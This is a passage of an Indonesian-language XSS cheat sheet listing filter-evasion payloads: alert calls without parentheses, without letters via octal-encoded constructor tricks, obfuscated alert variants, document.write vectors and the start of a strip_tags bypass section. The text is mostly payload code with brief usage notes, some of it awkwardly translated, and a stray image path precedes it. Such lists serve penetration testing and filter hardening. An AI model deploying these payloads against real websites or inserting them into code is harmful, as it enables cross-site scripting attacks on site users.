       setInterval\`alert\\x28document.domain\\x29\`

> Alert without Parentheses (Tag Exclusive)

Gunakan hanya dalam suntikan HTML ketika tanda kurung tidak diizinkan. Ganti “&” dengan “% 26”

dan "#" dengan "% 23" di URL.

      <svg onload=alert&lpar;1&rpar;>
    
      <svg onload=alert&#40;1&#41>

> Alert without Alphabetic Chars

Gunakan saat karakter alfabet tidak diizinkan. Berikut ini adalah peringatan (1).

      \[\]\['\\146\\151\\154\\164\\145\\162'\]\['\\143\\157\\156\\163\\164\\162\\165\\143\\164\\157\\162'\]('\\141\\154\\145\\162\\164\\50\\61\\51')()

> Alert Obfuscation

Gunakan untuk mengelabui beberapa filter ekspresi reguler (regex). Mungkin dikombinasikan dengan sebelumnya

alternatif (above). Opsi terpendek "atas" juga dapat diganti dengan “window”, “parent”,

“self” or “this”  tergantung pada konteksnya.

      (alert)(1)
    
      a=alert,a(1)
    
      \[1\].find(alert)
    
      top\["al"+"ert"\](1)
    
      top\[/al/.source+/ert/.source\](1)
    
      al\\u0065rt(1)
    
      top\['al\\145rt'\](1)
    
      top\[8680439..toString(30)\](1)
    
      top.open\`javas\\cript:al\\ert(1)\`

> Alert Alternative

Gunakan sebagai alternatif untuk mengingatkan, meminta dan mengonfirmasi. Jika digunakan dengan vektor HTML, bisa jadi

digunakan sebagaimana adanya tetapi jika merupakan suntikan JS, formulir "document.write" lengkap diperlukan. Ganti "&"

dengan "% 26" dan "#" dengan "% 23" di URL.

       write\`XSSed!\`
    
       write\`<img/src/o&#78error=alert&lpar;1)&gt;\`

> Strip-Tags Based Bypass

Gunakan saat menyaring menghapus apa pun di antara karakter <dan> seperti strip_tags PHP ()
